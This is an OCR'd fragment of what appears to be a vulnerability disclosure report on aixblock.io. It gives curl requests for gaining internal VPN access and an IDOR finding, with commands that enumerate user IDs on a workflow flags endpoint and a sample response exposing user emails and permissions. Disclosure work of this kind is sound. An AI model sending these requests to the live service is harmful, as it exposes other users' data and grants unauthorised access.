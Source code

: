 ```bash
  -H "Authorization: Bearer <session_token>" \
  -d '{"action": "connect", "target": "internal", "method": "vpn"}'

# Step 5: VPN configuration
curl -X POST https://app.aixblock.io/api/v1/vpn/configure \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer <session_token>" \
  -d '{"vpn_config": "client", "access_level": "full", "tunnel": "internal"}'
```

---

## **⚠️ HIGH SEVERITY VULNERABILITIES - LIVE EXPLOITATION PROOFS**

### **4. IDOR - Workflow Flags (CVSS 7.5)**

#### **Real-World Exploitation Evidence:**
```json
{
  "timestamp": "2025-10-21T12:15:09.167805",
  "type": "IDOR",
  "url": "https://workflow.aixblock.io/api/v1/flags?user_id=1",
  "payload": "user_id=1",
  "response_code": 200,
  "severity": "HIGH",
  "evidence": "Sensitive data pattern: email",
  "exploitability": "HIGH"
}
```

#### **IDOR Exploitation Techniques:**
```bash
# Test IDOR access patterns
curl -s "https://workflow.aixblock.io/api/v1/flags?user_id=1"
curl -s "https://workflow.aixblock.io/api/v1/flags?user_id=2"
curl -s "https://workflow.aixblock.io/api/v1/flags?user_id=999"
curl -s "https://workflow.aixblock.io/api/v1/flags?user_id=0"
curl -s "https://workflow.aixblock.io/api/v1/flags?user_id=-1"

# Expected Response:
{
  "user_id": 1,
  "email": "user1@example.com",
  "flags": ["premium", "beta_access"],
  "permissions": ["read", "write"]
}
```

### **5. IDOR - Workflows (CVSS 7.5)**
